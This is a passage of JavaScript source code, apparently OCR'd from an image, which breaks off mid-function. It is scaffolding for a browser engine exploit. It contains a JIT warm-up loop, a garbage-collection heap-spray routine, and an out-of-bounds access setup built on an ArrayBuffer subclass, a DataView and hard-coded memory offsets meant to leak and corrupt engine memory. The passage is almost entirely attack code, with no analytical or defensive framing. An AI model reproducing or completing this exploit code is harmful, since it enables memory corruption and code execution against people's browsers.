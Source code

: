 ```
    }
    not_optimised_out += 1;
    not_optimised_out |= 0xff;
    not_optimised_out *= 12;
});


for (var i = 0; i < 0x10000; ++i) {
    target_function(i);
}




var g_array;
var tDerivedNCount = 17 * 87481 - 8;
var tDerivedNDepth = 19 * 19;


function cb(flag) {
    if (flag == true) {
        return;
    }
    g_array = new Array(0);
    g_array[0] = 0x1dbabe * 2;
    return 'c01db33f';
}


function gc() {
    for (var i = 0; i < 0x10000; ++i) {
        new String();
    }
}


function oobAccess() {
    var this_ = this;
    this.buffer = null;
    this.buffer_view = null;


    this.page_buffer = null;
    this.page_view = null;


    this.prevent_opt = [];


    var kSlotOffset = 0x1f;
    var kBackingStoreOffset = 0xf;


    class LeakArrayBuffer extends ArrayBuffer {
        constructor() {
            super(0x1000);
            this.slot = this;
        }
    }


    this.page_buffer = new LeakArrayBuffer();
    this.page_view = new DataView(this.page_buffer);
```